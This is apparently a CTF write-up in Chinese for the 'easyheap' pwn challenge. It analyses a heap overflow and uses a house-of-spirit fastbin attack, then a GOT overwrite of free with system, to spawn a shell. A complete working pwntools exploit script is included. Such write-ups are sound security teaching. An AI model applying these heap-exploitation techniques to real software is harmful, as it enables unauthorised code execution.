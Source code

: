 ## 0x001 程序分析

通过checksec查看程序开启的保护，可见程序开启了NX和Canary。

![](1.png)

main函数中还有个隐藏功能

![](3.png)

如果输入的选项为4869，则会判断magic的大小，如果magic大于0x1305，则会进入 **l33t** 函数中，在 **l33t** 函数中调用 **system("cat /home/pwn/flag")** 命令打印flag信息。

下面来分析下对堆操作的各个功能函数。

### create_heap函数

![](4.png)

该函数中首先循环遍历 **heaparray** 数组，判断其中是否有值，如果没有，则会根据输入的大小创建一个堆块，并将堆块地址保存到 **heaparray** 数组中。

### edit_heap函数

![](5.png)

该函数根据输入的 **heaparray** 数组下标定位相应的堆块地址，然后根据输入的大小，编辑堆块内容。

### delete_heap函数

![](6.png)

该函数根据输入的 **heaparray** 数组下标定位相应的堆块地址，释放堆块地址后，将该位置的值置为0。

## 0x002 漏洞分析

根据上述分析可知，在edit_heap函数中存在堆溢出漏洞。因为在edit_heap函数中对堆块内容进行编辑时，没有对输入的长度进行限制，导致如果编辑时输入的长度大于创建堆块时输入的长度，则会造成溢出。

## 0x003 漏洞利用

根据上述分析可知，该程序存在堆溢出漏洞，并且关闭了地址随机化，那么可以通过house of spirit来达到任意地址写的目的。

前面分析了，在main函数中个隐藏内容，如果输入的选项为4869，并且 **magic** 大于0x1305，则会进入 **l33t** 函数中，调用 **system("cat /home/pwn/flag")** 命令打印flag信息。

那么根据house of spirit的利用条件，需要在 **magic** 附近伪造大小符合fastbin的堆块，然后释放堆块使其进入fastbins中，再次申请得到伪造堆块，就可以修改 **magic** 的内容了。

使用GDB动态调试，寻找 **magic** 附近符合要求的堆块

![](7.png)

根据堆块的结构，可以在 **magic-0x13** 处找到一个大小符合 fastbin 的堆块，该堆块的大小为 0x7f，地址为0x6020ad。

那么接下来就是首先创建三个大小为0x60的堆块（使其chunk->size在0x70-0x80之间，配合伪造堆块的大小），释放最后一个堆块
```
create(0x60, b"A")
create(0x60, b"A")
create(0x60, b"A")
delete(2)
```

此时堆布局如下：

![](8.png)

接下来通过编辑chunk1，覆盖chunk2->fd为伪造的堆块地址。
```
payload = p64(0) * 13 + p64(0x71) + p64(0x6020ad)
edit(1, payload)
```

此时的堆布局如下：

![](9.png)

可以看到此时的fastbins已经有两个地址了，那么在重新申请两个相应大小的堆块，就会得到伪造的堆块地址。
```
create(0x60, b"A")
create(0x60, b"A")
```

此时的堆布局以及 **heaparray** 数组内容如下：

![](10.png)

可以看到，伪造的堆地址已经在 **heaparray** 数组中了，那么此时通过编辑chunk3，就可以修改 **magic** 的值
```
payload = b"A" * 3 + p64(0xffff)
edit(3, payload)
p.sendlineafter("choice :", str(4869))
```

然后选择输入处输入4869即可

![](11.png)

好吧，被骗了，根本就没有/home/pwn/flag这个文件，**133t** 这个函数的目的可能只是提供一个system函数。

这个方法行不通就只能换个思路，已经能够达成任意地址写，而且程序没有开启RELRO，那么也可以通过修改got表中的函数地址为system函数地址来获取系统权限。在这里选择修改的是free_got的地址，由于程序中没有提供 **"/bin/sh"** 字符串，还需要输入一个 **"/bin/sh"** 字符串。

接下来的思路就是，通过伪造的堆块，将 **heaparray[0]** 中保存的地址覆盖为free_got的地址，然后通过编辑chunk0，就可以将free_got中free的真实地址改为system_plt地址，这样在调用free()是就会执行system()。参数可以将 **heaparray** 中一个堆块的内容改为 **"/bin/sh"** 字符串，这样在执行 **delete_heap** 释放堆块时，就可以将 **"/bin/sh"** 的地址作为参数传给system，执行 **system("/bin/sh")** 命令。

回到重新申请两个相应大小的堆块，得到伪造的堆块地址处，这里需要在创建堆块时，将 **"/bin/sh"** 先写入。
```
create(0x60, b"/bin/sh\x00")
create(0x60, b"A")
```

此时堆布局如下：

![](12.png)

可以看到已经将 **"/bin/sh"** 写入到了chunk2中。然后通过编辑伪造堆块，修改 **heaparray[0]** 为free_got，然后编辑chunk3，将free_got中的地址改为system_plt地址。
```
payload = b"A" * 3 + p64(0) * 4 + p64(elf.got["free"])
edit(3, payload)
payload = p64(elf.plt["system"])
edit(0, payload)
```

此时堆布局如下：

![](13.png)

这是再运行 **delete_heap** 释放chunk2，即可执行system("/bin/sh")命令。

最终exp如下：
```
from pwn import *

p = process("./easyheap")
elf = ELF("easyheap")

def create(size, payload):
    p.sendlineafter("choice :", str(1))
    p.sendlineafter("Heap : ", str(size))
    p.sendlineafter("heap:", payload)

def edit(idx, payload):
    p.sendlineafter("choice :", str(2))
    p.sendlineafter("Index :", str(idx))
    p.sendlineafter("Heap : ", str(len(payload)+1))
    p.sendlineafter("heap : ", payload)

def delete(idx):
    p.sendlineafter("choice :", str(3))
    p.sendlineafter("Index :", str(idx))
    
create(0x60, b"A")
create(0x60, b"A")
create(0x60, b"A")
delete(2)

payload = p64(0) * 13 + p64(0x71) + p64(0x6020ad)
edit(1, payload)

create(0x60, b"/bin/sh\x00")
create(0x60, b"A")

payload = b"A" * 3 + p64(0) * 4 + p64(elf.got["free"])
edit(3, payload)
payload = p64(elf.plt["system"])
edit(0, payload)

delete(2)
p.interactive()
```